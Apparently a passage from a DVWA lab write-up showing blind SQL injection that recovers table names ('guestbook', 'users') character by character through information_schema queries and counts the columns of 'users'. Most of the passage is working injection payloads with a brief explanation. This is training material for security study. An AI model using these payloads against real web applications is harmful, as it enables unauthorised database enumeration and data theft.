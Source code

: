 •	Get name of each table by bruteforcing each character (guestbook and users): 1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1 offset 0),1))=103#

Use to check if the first character of the first table name in the current database is equal to the ASCII code for the letter "g". This payload uses a subquery to select the name of the first table in the current database using the "information_schema.tables" table. The "substr()" function is used to retrieve the first character of the table name, and the "ascii()" function is used to convert the character to its ASCII code. The code is then compared to the integer value of 103, which is the ASCII code for lowercase "g". If the first character is "g" it will say it already exists, if not it will say MISSING. And the characters after that we do the same.

1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1 offset 0),2))=117#

1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1 offset 0),3))=101#

1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1 offset 0),4))=115#

1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1 offset 0),5))=116#

1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1 offset 0),6))=98#

1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1 offset 0),7))=111#

1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1 offset 0),8))=111#
 
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1 offset 0),9))=107#

![image](https://github.com/nahcusira/dvwa/assets/87233531/8a332860-da19-4e7c-9118-708f1db561b3)

1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1 offset 1),1))=117#

1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1 offset 1),2))=115#

1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1 offset 1),3))=101#

1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1 offset 1),4))=114#

1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1 offset 1),5))=115#
 
![image](https://github.com/nahcusira/dvwa/assets/87233531/e5062c8d-4a8a-4f29-a607-3489a828b86e)

•	Get number of columns in ‘users’ table (8): 1' and (select count(column_name) from information_schema.columns where table_name='users')=8#

